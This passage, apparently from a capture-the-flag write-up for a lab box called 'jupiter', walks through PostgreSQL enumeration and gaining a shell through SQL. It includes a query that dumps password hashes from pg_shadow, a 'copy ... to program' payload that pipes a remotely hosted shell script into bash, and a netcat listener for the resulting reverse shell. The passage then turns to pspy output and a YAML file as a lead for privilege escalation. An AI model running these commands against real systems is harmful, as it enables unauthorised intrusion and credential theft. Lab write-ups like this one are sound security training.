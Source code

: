 ```SQL
-- Show all Tables in database:
select table_name from information_schema.tables;

-- Show username and password from pg_shadow
select concat(usename,':', passwd) from pg_shadow;

-- Show current user
select user;

-- Show if user has superuser permission
select usename, usesuper from pg_user
```

Because our user `grafana_viewer` has superuser permission, we can perform RCE via Postgres SQL with the following command from [Hacktricks](http://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce-to-program):

```sql
copy (SELECT '') to program 'curl http://10.10.14.12:8000/shell.sh|bash';
```

You will need to have `shell.sh` containing your reverse hosted on your machine with a simple python http server and a netcat listener with `nc -lvnp <PORT>` running to catch the reverse shell.

This lets us into the machine with the user `postgres`:

```vim
postgres@jupiter:/var/lib/postgresql/14/main$ id
id
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```

This box has 2 users, juno and jovian. I tried running `linpeas.sh` but I had no luck with it, so I tried using `pspy64` and it caught a process running every 2 minutes by juno: 

```vim
2023/06/08 16:36:01 CMD: UID=1000  PID=24215  | rm -rf /dev/shm/shadow.data 
2023/06/08 16:36:01 CMD: UID=1000  PID=24214  | /bin/bash /home/juno/shadow-simulation.sh 
2023/06/08 16:36:01 CMD: UID=1000  PID=24216  | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/06/08 16:36:01 CMD: UID=1000  PID=24219  | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/06/08 16:36:01 CMD: UID=1000  PID=24220  | lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/06/08 16:36:01 CMD: UID=1000  PID=24225  | /usr/bin/python3 -m http.server 80 
2023/06/08 16:36:01 CMD: UID=1000  PID=24226  | /usr/bin/curl -s server 
2023/06/08 16:36:01 CMD: UID=1000  PID=24228  | /usr/bin/curl -s server 
2023/06/08 16:36:01 CMD: UID=1000  PID=24230  | /usr/bin/curl -s server 
2023/06/08 16:36:01 CMD: UID=1000  PID=24235  | cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/ 
```

This seems to execute `/dev/shm/network-simulation.yml` so I checked it out and found the following:

```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

```